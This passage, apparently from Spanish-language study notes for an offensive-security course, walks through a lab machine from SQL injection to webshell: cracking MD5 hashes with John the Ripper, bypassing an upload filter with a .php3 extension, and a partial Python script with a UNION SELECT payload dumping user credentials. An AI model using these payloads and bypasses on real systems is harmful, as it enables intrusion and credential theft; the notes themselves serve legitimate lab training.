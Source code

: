       

   4. Finalmente, en el fichero /clases/user:

         ​	![md5login](/Users/nyanyi/Datos/Material_estudio/Offensive_secu/Awae/Preparacion/maquinas_preparacion/sqli_to_shell/pruebas/md5login.png)

   5. Otra opción hubiera sido probar un login en la aplicación:

![params_login](/Users/nyanyi/Datos/Material_estudio/Offensive_secu/Awae/Preparacion/maquinas_preparacion/sqli_to_shell/pruebas/params_login.png)

​		6. Y partir de aquí, mediante greps:

![params_login_grep](/Users/nyanyi/Datos/Material_estudio/Offensive_secu/Awae/Preparacion/maquinas_preparacion/sqli_to_shell/pruebas/params_login_grep.png)

4. John 

   - john --list=formats | tr , '\n' | grep -i md5
   - john --format=raw-md5 password_photoblog --wordlist=/usr/share/wordlists/rockyou.txt --rules

   ![john](/Users/nyanyi/Datos/Material_estudio/Offensive_secu/Awae/Preparacion/maquinas_preparacion/sqli_to_shell/pruebas/john.png)



## Fase 5 - File upload y webshell

1. Una vez que se puede autenticarse como admin se analizan las diferentes funcionalidades y el código. En concreto se opta por analizar el file upload, presente en el fichero new:

   ![new_index](/Users/nyanyi/Datos/Material_estudio/Offensive_secu/Awae/Preparacion/maquinas_preparacion/sqli_to_shell/pruebas/new_index.png)

2. Tal y como se indica en el código, es el fichero /admin/index mediante la función create la que se encarga de esta funcionalidad:

   ![picturea_create_index](/Users/nyanyi/Datos/Material_estudio/Offensive_secu/Awae/Preparacion/maquinas_preparacion/sqli_to_shell/pruebas/picturea_create_index.png)

3. Mediante burp se revisan que parámetros son necesarios para llevar a cabo la subida del fichero:

![burp_new](/Users/nyanyi/Datos/Material_estudio/Offensive_secu/Awae/Preparacion/maquinas_preparacion/sqli_to_shell/pruebas/burp_new.png)

4. El analisis de la función create( en classes/picture) aporta la siguiente información:

   1. El fichero esta ubicado en el directorio "uploads/"
   2. Hay un filtrado de extensiones que no permite utilizar la extensión php pero si, por 				ejemplo, php3
   3. Sabiendo esto, el siguiente paso es subir una webshell

   ![funcion_create](/Users/nyanyi/Datos/Material_estudio/Offensive_secu/Awae/Preparacion/maquinas_preparacion/sqli_to_shell/pruebas/funcion_create.png)

## Fase 6: Automatización

```python
import requests

target="172.16.113.157"
path_file="/home/nyanyi/awae/preparacion/sqli_to_shell/solucion/console.php3"
command='uname -a'

def sqli(target):
    path_sqli="/cat.php"
    url = "http://" + target + path_sqli
    payload = {'id':"2 UNION SELECT NULL,concat_ws(' : ' ,id,login,password),NULL,NULL FROM photoblog.users"}
    r=requests.get(url, params=payload, verify=False)
    print(r.text)

def login(target):
    path="/admin/index.php"
```